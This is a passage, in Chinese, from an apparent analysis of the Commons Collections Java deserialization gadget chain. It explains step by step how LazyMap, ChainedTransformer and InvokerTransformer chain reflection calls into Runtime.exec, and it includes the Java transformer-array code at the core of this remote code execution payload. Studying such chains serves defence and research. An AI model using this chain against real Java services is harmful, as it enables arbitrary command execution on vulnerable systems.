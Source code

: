 step3：`memberValues`为 `handler2 = (InvocationHandler) c.newInstance(Override.class, lazyMap)`中传入的 `lazyMap`，即` memberValues.get` 实际为  `lazyMap.get` 。

`LazyMap`的实例化`lazyMap = LazyMap.decorate(innerMap, transformerChain)`需要一个` Map`对象 与一个` Transformer `对象，当`LazyMap.get(key)`的入参`key`不在当前映射表中时，会先通过 `factory.transform(key) `获取value，然后保存key-value；这里的 factory 则为一个 `ChainedTransformer` 对象 。

![LazyMap.get](png/LazyMap.get.png)

step4：`ChainedTransformer.transform` 方法会遍历字段`Transformer[] iTransformers`进行迭代式的处理；循环中，将当前transform输出作为下一个transform的输入。

![ChainedTransformer.transform](png/ChainedTransformer.transform.png)

step5: ConstantTransformer忽略输入的数据，单纯返回 Runtime.Class，该输出作为下个Transformer的输入；第一个InvokerTransformer 的输入为Runtime.class，返回 method 对象，之后再调用该 method对象的invoke方法来反射调用Runtime.getRuntime获取到一个Runtime对象，通过Runtime对象我们才能执行exec来执行命令。熟悉Java反射后更容易理解这里的 InvokerTransformer 。通过这一系列的循环，即 Runtime.class -> Runtime.class.getMethod("getRuntime") ->  method.invoke()  -> Runtime.exec("calc")

```java
      final Transformer[] iTransformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs),
        };
```
